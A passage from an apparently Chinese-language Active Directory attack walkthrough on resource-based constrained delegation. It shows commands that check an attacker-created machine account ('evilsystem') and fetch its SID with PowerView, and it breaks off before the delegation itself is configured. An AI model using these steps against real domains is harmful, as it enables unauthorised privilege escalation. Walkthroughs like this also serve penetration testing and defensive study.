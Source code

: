 Step 5：查询机器用户是否创建成功

```bash
net group "domain computers" /domain
```

[![](assets/1705982146-76314e2d8104ae430debb25a39642ed5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223549-34c573c6-b7a1-1.png)  
Step 6：配置 evilsystem 到 wi7-test 的基于资源约束的委派  
a、获取 evilsystem 的 SID

```bash
Get-NetComputer "evilsystem"  //S-1-5-21-180313546-3823935851-3686928739-1604
```

[![](assets/1705982146-04950a0d000af79740550e843d02c61e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223624-4993ea8a-b7a1-1.png)  
b、配置 evilsystem 到 wi7-test 的基于资源约束委派
